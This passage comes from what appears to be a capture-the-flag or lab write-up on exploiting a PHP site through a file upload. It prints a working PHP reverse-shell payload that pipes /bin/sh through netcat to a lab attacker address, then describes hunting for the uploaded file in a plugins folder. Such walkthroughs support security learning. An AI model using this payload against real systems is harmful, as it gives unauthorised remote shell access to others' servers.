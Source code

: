 ***

* To do so, I could create a script for getting a Reverse Shell and upload it into this section. Also, I confirmed that the page is based on _PHP_ with the help of [_Wappalyazer_](../../web-exploitation/tools-and-utilities.md#wappalyzer), so I created a basic script in this programming language with the payload and uploaded it

{% code title="RevShell.php" overflow="wrap" lineNumbers="true" %}
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.80 4444 >/tmp/f"); ?>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about how to create a script for a Reverse Shell you can go [here](../../scripting/reverse-shell.md)
{% endhint %}

***

* I saw a couple of warnings but the page told me that the file had been uploaded successfully. Then, I had to find out the location where the files were uploaded to execute it. I went back to search and after a while, I found under the _/content/private_ folder, a folder named _plugins._ Going there I found another folder related to the _My Image_ plugin so I went there to check its content&#x20;
